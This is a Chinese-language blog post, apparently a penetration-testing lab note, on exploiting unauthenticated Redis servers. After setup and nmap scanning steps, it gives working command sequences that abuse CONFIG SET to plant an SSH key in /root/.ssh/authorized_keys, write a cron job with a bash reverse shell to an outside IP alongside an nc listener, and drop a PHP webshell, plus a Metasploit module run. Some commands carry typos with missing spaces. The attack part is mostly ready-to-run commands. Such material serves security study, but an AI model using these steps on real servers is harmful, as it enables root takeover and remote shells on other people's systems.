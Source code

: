 ```yaml
---
layout: post
cover: 'assets/images/cover3.jpg'
title: Markdown Test 
date:   2018-07-01
tags: web
subclass: 'post'
navigation: True
logo: 'assets/images/ghost.png'
---
```



# Redis未授权访问

### 0、环境搭建

#### (1)下载安装

```
cd /tmp
wget http://download.redis.io/releases/redis-2.8.17.tar.gz
tar xzf redis-2.8.17.tar.gz
cd redis-2.8.17
make

cd src
./redis-server
```

#### (2)远程连接

Kali：

```
./redis-cli -h 192.168.111.135
```

Windows：

下载地址：

https://github.com/dmajkic/redis/downloads

```
.\redis-cli -h 192.168.111.135
```

#### (3)常用命令

查看所有键：

```
KEYS *
```

将变量x的值设为test：

```
set x "test"
```

获取默认的redis目录：

```
CONFIG GET dir
```

获取rdb文件名：

```
CONFIG GET dbfilename
```

### 1、漏洞概述

默认情况下，Redis会绑定在 0.0.0.0:6379，并且对公网开放，不需要密码认证

攻击者可以借此未授权访问Redis以及读取Redis的数据，利用Redis自身的提供的config命令可以进行写文件操作

具体有以下利用方式：

- 写入ssh公钥远程连接
- 写入计划任务反弹shell
- 写入webshell


### 2、漏洞扫描

#### 1、手工验证

```
.\redis-cli -h 192.168.111.135
```

输入`INFO server`，有回显，代表存在漏洞

#### 2、批量扫描

```
nmap -v -n -Pn -p 6379 -sV --scriptredis-info 192.168.111.1/24
```

redis-info为nmap专用于检查该漏洞的插件，kali下默认包含

### 3、漏洞利用

#### (1)写入ssh公钥远程连接

利用条件：

- redis服务使用root账号启动
- redis服务无密码认证或者使用的是弱口令进行认证
- 服务器开放了ssh服务，而且允许使用密钥登录

在本地生成公私钥文件：

```
ssh-keygen –t rsa
```

生成公钥文件：`~/.ssh/id_rsa.pub`

生成私钥文件：`~/.ssh/id_rsa`

将公钥写入 foo.txt 文件:

```
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
```

连接redis写入文件:

```
cat foo.txt | redis-cli -h 192.168.111.135 -x set crackit
redis-cli -h 192.168.111.135
config set dir /root/.ssh/
config set dbfilename "authorized_keys"
save
```

通过ssh远程连接：

```
ssh –i  id_rsa root@192.168.111.135
```

####  (2)写入计划任务反弹shell

使用telnet远程登录redis

```
telnet 192.168.111.135 6379
```

添加计划任务：

```
config set dir /var/spool/cron/
set -.- "\n\n\n* * * * * bash -i &gt;& /dev/tcp/192.168.236.129/9999 0&gt;&1\n\n\n"
```

本地执行nc监听端口：

```
nc -v -l -p 9999
```

#### (3)写入webshell

利用条件：

- redis服务无密码认证或者使用的是弱口令进行认证
- 支持web并且知道路径


在路径/home/wwwroot/default/写入webshell redis.php：

```
config set dir /home/wwwroot/default/
config set dbfilename redis.php
set webshell "<?php phpinfo(); ?>"
save
```


#### 补充1：如果通过set写入失败

先查看当前有哪些键：

```
KEYS *
```

查看某个键：

```
GET "phptest"
```

删除某个键：

```
DEL "phptest"
```

删除其他影响写入信息的键，并且需要关闭压缩功能：

```
CONFIG SETrdbcompression no
```

#### 补充2：利用msf

```
use auxiliary/scanner/redis/file_upload
set DISABLE_RDBCOMPRESSION yes
setRHOSTS 192.168.111.135
setRemoteFile /tmp/webshell
setLocalFile /home/test.txt
run
```


